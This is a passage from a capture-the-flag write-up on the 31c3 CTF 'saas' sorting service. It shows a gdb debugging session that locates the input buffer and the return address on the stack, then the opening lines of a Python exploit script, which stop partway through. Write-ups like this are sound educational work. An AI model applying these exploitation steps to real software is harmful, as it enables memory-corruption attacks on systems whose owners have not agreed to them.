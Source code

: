     gdb-peda$ break main
    Breakpoint 1 at 0x15a6
    gdb-peda$ run
    Starting program: /home/niklas/ctf/31c3ctf/saas/saas/service
    Breakpoint 1, 0x565565a6 in main ()
    gdb-peda$ backtrace
    #0  0x565565a6 in main ()
    #1  0xf7cc9e5e in __libc_start_main () from /usr/lib32/libc.so.6
    #2  0x56556e88 in _start ()
    gdb-peda$ break comparator(unsigned int, unsigned int)
    Breakpoint 2 at 0x56556fc0
    gdb-peda$ c
    Continuing.
    Welcome to SaaS (Sorting as a Service)!

    Please choose your sorting algorithm:
    0) exit
    1) little endian, lower than
    2) little endian, greater than
    3) big endian, lower than
    4) big endian, greater than
    5) popcount, lower than
    6) popcount, greater than
    7) custom
    : 1
    How many numbers do you want to sort(max 1024)?
    : 2
    Number 1: 1
    Number 2: 2
    Breakpoint 2, 0x56556fc0 in comparator(unsigned int, unsigned int) ()
    gdb-peda$ x/40wx $esp
    0xffffc07c:	0x565573dd	0x00000002	0x00000001	0xffffc0c8
    0xffffc08c:	0xffffc098	0xf7f5ce20	0xffffc114	0x00000002
    0xffffc09c:	0x0000000a	0x565578d7	0x01eef476	0x00000000
    0xffffc0ac:	0x46baeb00	0xf7f5ce60	0x565578d7	0xf7ed829b
    0xffffc0bc:	0xffffc114	0xffffc10c	0x00000008	0xffffd128
    0xffffc0cc:	0x56556dbd	0xffffc10c	0xffffc114	0x56556fc0
    0xffffc0dc:	0x56556fc0	0x00000000	0x00000000	0x00000000
    0xffffc0ec:	0x00000000	0x00000000	0x00000000	0x00000000
    0xffffc0fc:	0x00000000	0x00000000	0x00000002	0xdeadbeef
    0xffffc10c:	0x00000001	0x00000002	0x00000000	0x00000000

So the input buffer landed at `0xffffc10c`. Let's see what's 1024 words later:

    gdb-peda$ x/12wx 0xffffc10c + 1024*4
    0xffffd10c:	0x46baeb00	0xf7e66420	0xf7f57c14	0x565577db
    0xffffd11c:	0xf7e66000	0x00000000	0x56556e57	0x00000000
    0xffffd12c:	0xf7cc9e5e	0x00000001	0xffffd1c4	0xffffd1cc

Perfect, so the return address is the 8-th word after the buffer. Let's [write
an exploit](https://github.com/kitctf/writeups/blob/master/31c3-ctf/saas/leak.py)!

{% highlight python %}
import sys, socket, time, os, re, telnetlib

def get_comparator(n, offset):
    return """
answers = %s
i = 0
function f(a,b)
    i = i + 1
    return answers[i]
end



""" % os.popen("./compute_answers %d %d" % (n, offset)).read().strip()

